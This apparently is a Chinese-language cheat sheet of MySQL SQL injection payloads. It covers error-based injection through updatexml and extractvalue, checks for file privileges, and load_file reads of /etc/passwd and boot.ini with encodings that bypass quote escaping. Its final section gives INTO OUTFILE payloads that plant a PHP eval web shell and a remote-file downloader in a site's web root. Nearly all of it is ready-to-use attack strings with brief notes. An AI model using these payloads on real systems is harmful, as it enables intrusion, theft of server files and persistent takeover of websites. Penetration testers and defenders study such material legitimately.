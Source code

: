#### extractvalue, updatexml 报错
`and 1=(updatexml(1,concat(0x3a,(select user())),1))`  
`and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));`


## 二、读文件
 
### 判断权限  
`and (select count(*) from mysql.user)>0` /&#42; 返回正常,说明有读写权限（file_priv权限）  
`and (select count(*) from mysql.user)>0` /&#42;  返回错误则无  

（超级用户的系统文件无法读，超过大小的文件无法读，只有php+mysql的需要考虑魔术引号）  
 
load_file() 函数（win系统的C:\boot.ini）  
- 文件必须在服务器上。  
- LOAD_FILE()函数操作文件的当前目录是@@datadir 。  
- 需要连接数据库的用户有file_priv 权限，且启动mysqld 用户必须拥有对此文件读取的权限。  
> For security reasons, when reading text files located on the server, the files must either reside in the database directory or be readable by all. Also, to use LOAD DATA INFILE on server files, you must have the **FILE privilege**.
- 文件大小必须小于 max_allowed_packet。  
- @@max_allowed_packet的默认大小是1047552 字节.  

`test.php?id=1'/**/union/**/select/**/1,load_file('c:/boot.ini')`  //magic_quotes_gpc = off  
`test.php?id=1'/**/union/**/select/**/1,load_file(char(99,58,47,98,111,111,116,46,105,110,105))`  //magic_quotes_gpc = on/用ascii 编码下即可  
`test.php?id=1'/**/union/**/select/**/1,load_file(0x633A5C626F6F742E696E69),3/*`   //magic_quotes_gpc = on/用16进制即可  
 
`load_file(0x2f6574632f706173737764)` （*nix系统的/etc/passwd）  
id=1 and(select &#96;load_file&#96;(0x2f6574632f706173737764)>0x726f66) # 由于mysql 语法特性&#96;函数名&#96;()等价于函数名()   

### mysql 3.x  
```
mysql>create table a (cmd text);
mysql>load data infile 'c:\\boot.ini' into table a;
mysql>select * from a;

mysql>create table potatoes(line blob);
mysql>union select 1,1, hex(load_file('/etc/passwd')), 1,1 into dumpfile '/tmp/potatoes';
mysql>load data infile '/tmp/potatoes' into table potatoes;
```
### mysql 4.x  
同上  

### mysql 5.x  
`mysql>system cat /etc/passwd`
 
## 三、写文件
需要连接数据库的用户有file_priv 权限，且启动mysqld 的用户对目录需要有写权限，需要物理路径（爆路径漏洞或phpinfo），不存在重名文件，不过滤`'"`(因为没有办法编码路径名)。注意：普通用户创建的文件默认权限是 644，但如php/jsp/asp 这些脚本是不需要可执行权限就能访问而被执行的，如 perl/python/bash/c++ 等写成的cgi 是需要可执行权限才能执行的。  
`test.php?id=1 union select 1,2,3,4,"<?php @eval($_POST[cmd])?>",6 into outfile "/var/www/shell.php"`  
`test.php?id=1 union select 1,2,3,4,"<?php @eval($_POST[cmd])?>",6 into dumpfile "/var/www/shell.php"`  
`SELECT '<? fwrite(fopen($_GET[f], \'w\'), file_get_contents($_GET[u])); ?>' INTO OUTFILE '/var/www/get.php'`  
